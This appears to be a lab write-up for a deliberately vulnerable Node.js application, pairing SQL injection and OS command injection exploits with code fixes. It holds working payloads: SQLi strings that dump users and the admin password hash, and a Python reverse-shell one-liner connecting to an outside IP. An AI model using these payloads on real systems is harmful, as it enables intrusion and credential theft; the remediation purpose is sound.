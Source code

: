 # sql Injection
## Exploiting error based SQL injection

### Get the result of first user without knowing any user name with sqli
```
' or '1'='1
```

### Exfiltrate admin password hash
```
' UNION SELECT password,1 from Users where login='admin' -- //
```


## The fix

### Edits to the `core\appHandler.js`

```js
module.exports.userSearch = function (req, res) {
//Comment out the following lines 
	//var query = "SELECT name,id FROM Users WHERE login='" + req.body.login + "'";
	//db.sequelize.query(query, {
	//	model: db.User
	//}).then(user => {
	//	if (user.length) {
		db.User.find({where:{'login':req.body.login}}).then(user => {
			if (user) {
			var output = {
				user: {
					//name: user[0].name,
					//id: user[0].id
					name: user.name,
					id: user.id
				}
			}
			res.render('app/usersearch', {
				output: output
			})
		} else {
			req.flash('warning', 'User not found')
			res.render('app/usersearch', {
				output: null
			})
		}
	}).catch(err => {
		//req.flash('danger', 'Internal Error')
		req.flash('yei', 'Fixed it')
		res.render('app/usersearch', {
			output: null
		})
	})
}
```


---

# OS Command Injection

## Exploiting
##### Intended behaviour
```
Enter a valid IP
8.8.8.8
```
##### Exploiting by appending a OS command 
```
# List the files
8.8.8.8, ls

# Get the effective username of the current user when invoked
8.8.8.8, whoami
```

##### Getting a reverse shell
```
# Start a listener on your public IP
nc -nlvp 4444

# Run the following in vulnerable app function
8.8.8.8; python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("138.68.66.98",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' 
```

### The fix
### Edits to the `core\appHandler.js`

```js
// Remove the following line or replace 'exec' with 'execFile'
const exec = require('child_process').exec;

// Add the follwing line 
const execFile = require('child_process').execFile;
```

Then 
```js
// Remove/Replace the line 
exec('ping -c 2 ' + req.body.address, function (err, stdout, stderr) {

// Add the line
execFile('ping', ['-c', '2', req.body.address] , function(err,stdout,stderr){
```



